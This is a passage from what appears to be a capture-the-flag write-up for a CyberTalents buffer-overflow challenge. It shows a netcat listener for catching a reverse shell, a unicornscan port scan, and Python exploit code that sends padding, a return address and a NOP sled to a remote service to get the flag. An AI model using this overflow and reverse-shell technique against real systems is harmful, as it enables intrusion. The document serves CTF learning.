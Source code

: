 * run script
* run nc listener `sudo nc -nlvp 443` 
* finally got a shell

<img src="/img/crashed/i.PNG" alt="Getting-gz" width="800" height="440">
  


* change ip from private to ip get from vpn(cybertalents) 
* scan again to find port to connect 
* `sudo unicornscan -ImT 172.24.226.182:1-2000`

<img src="/img/crashed/10.PNG" alt="Getting-gz" width="800" height="200">

* connect `nc 172.24.226.182 1887`

<img src="/img/crashed/20.PNG" alt="Getting-gz" width="800" height="200">

* send code to machine on cyber talents
* `import socket`
* `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`
* `shell=""`	
* `payload='A'*998`
* `buffer="SECRET"+payload+'\xad\x12\x50\x62'+'\x90'*16+shell+'\x90'*(2000-998-4-6-16-len(shell))`
* `s.connect(("172.24.226.182",1887))`
* `print s.recv(1024)`
* `s.send(buffer)`
* `s.close()`

<img src="/img/crashed/admin.PNG" alt="Getting-gz" width="800" height="300">

* We got the final flag and complete task

